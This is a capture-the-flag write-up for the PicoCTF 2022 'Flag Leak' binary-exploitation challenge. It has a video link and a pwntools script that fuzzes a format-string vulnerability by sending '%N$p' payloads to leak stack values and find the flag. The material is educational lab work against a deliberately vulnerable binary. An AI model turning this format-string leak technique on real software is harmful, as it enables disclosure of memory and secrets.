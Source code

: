 ```yaml
---
name: Flag Leak (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Flag Leak (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag Leak

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=2634 "Pico CTF 2022: Flag Leak")

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process('./vuln', level='warn')
        # p = remote('saturn.picoctf.net', 53365, level='warn')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'>', '%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline()
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```
{% endcode %}
